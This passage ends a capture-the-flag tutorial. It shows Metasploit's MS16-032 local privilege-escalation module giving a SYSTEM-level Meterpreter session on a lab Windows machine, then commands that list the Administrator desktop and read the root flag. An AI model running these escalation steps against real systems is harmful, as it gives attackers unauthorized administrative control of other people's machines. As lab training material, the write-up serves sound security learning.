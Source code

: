 Lets bring our newest session back to the foreground and check the user.

```bash
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > sessions 2
[*] Starting interaction with 2...

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

Looks like we have `system` rights.
Lets try them out.

```bash
meterpreter > ls C:/Users/Administrator/Desktop/
Listing: C:/Users/Administrator/Desktop/
========================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-03-18 07:52:56 -0400  desktop.ini
100444/r--r--r--  34    fil   2023-08-25 01:02:31 -0400  root.txt

meterpreter > cat C:/Users/Administrator/Desktop/root.txt
<gEtHeReYoUrSeLf>
```

Congratulation, we've completed the box using Metasploit.
Hopefully, you've picked something up along the way.
Feel free to drop a message if you enjoyed this tutorial or if you think there's some places that could use improvement.

